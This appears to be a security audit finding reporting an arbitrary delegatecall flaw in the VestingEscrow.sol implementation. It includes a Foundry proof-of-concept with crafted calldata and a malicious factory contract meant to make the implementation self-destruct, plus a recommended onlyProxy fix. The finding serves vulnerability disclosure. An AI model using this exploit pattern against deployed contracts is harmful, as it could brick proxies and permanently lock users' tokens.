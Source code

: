 Ambitious Aegean Moose

high

# Arbitrary `delegatecall` in the `VestingEscrow.sol` implementation

## Summary

It's possible to execute a `delegatecall` to an arbitrary address on the `VestingEscrow.sol` implementation.

## Vulnerability Detail

The `VestingEscrow.sol` implementation takes the parameters it works with from the calldata. This works fine if the implementation is called via the designated proxy, but allows an attacker to specify custom parameters when calling the implementation directly. 

In the implementation there's 4 functions that perform a delegatecall on parameters specified in the calldata:
- `initialize(bool _isFullyRevokable, bytes calldata _initialDelegateParams)`
- `delegate(bytes calldata params)`
- `vote(bytes calldata params)`
- `voteWithReason(bytes calldata params)`

As an example the function `delegate(bytes calldata params)` does the following:
1. Checks the function is called by the `recipient`: the `recipient` is specified in the calldata.
2. Gets the `VotingAdaptor` from the `factory`: the `factory` is specified in the calldata.
3. Executes a delegate call on the `VotingAdaptor`.


An attacker can call `delegate(bytes calldata params)` directly on the `VestingEscrow.sol` implementation with specific call data in such a way that:
1. The `recipient` is himself, to bypass the modifier.
2. The `factory` is a custom contract that returns the address of a malicious adaptor.
3. The malicious adaptor calls the `selfdestruct` opcode, self-destructing the `VestingEscrow.sol` implementation.

### POC

Showing the use of `selfdestruct` in a foundry test is not possible because `selfdestruct` takes effect only when the test is over, but this shows it's possible to perform a `delegatecall` to an arbitrary address.

This can be copy-pasted in `VestingEscrowFactory.t.sol`:

```solidity
function testArbitraryDelegateCall() public {
    address maliciousFactory = address(new MaliciousFactory());
    address vestingEscrowImpl = factory.vestingEscrowImpl();

    address attacker = makeAddr("attacker");

    bytes memory craftedCalldata = abi.encodePacked(

        //CALLDATA FOR FUNCTION `delegate(bytes)`
        hex"0ccfac9e", //fn selector of `delegate(bytes)`
        hex"000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000000", //`bytes params of delegate(bytes)`
        
        //MALICIOUS CALLDATA
        address(maliciousFactory), //address: malicious factory
        hex"0000000000000000000000000000000000000000", //address: OZVotingToken address
        address(attacker), //address: recipient
        hex"0000000000", //uint40: starttime
        hex"0000000000", //uint40: endttime
        hex"0000000000", //uint40: cliffLength
        hex"0000000000000000000000000000000000000000000000000000000000000000", //uint256: totalLocked
        hex"006d" //2 bytes for data length

    );

    vm.prank(attacker);
    (bool success, bytes memory data) = vestingEscrowImpl.call(craftedCalldata);
}
```

The test requires two custom contracts:
```solidity
contract SelfDestruct {
    function delegate(bytes memory params) public {
        //selfdestruct call: in foundry is not possible to show the effects of `selfdestruct` because the results only take effect when a call is done.
    }
}

contract MaliciousFactory {
    address sd;
    constructor() {
        sd = address(new SelfDestruct());
    }
    function votingAdaptor() public returns (address) {
        return address(sd);
    }
}
```

## Impact

All of the proxies pointing to the destructed implementation would be bricked and all of the tokens permanently locked.

## Code Snippet

Getting factory from calldata: https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L20

Getting recipient from calldata: https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L30

## Tool used

Manual Review

## Recommendation

Implement an `onlyProxy()` modifier on the `VestingEscrow.sol` implementation that checks that the execution is being performed through a delegatecall call.

[Openzeppelin example](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable-onlyProxy--)
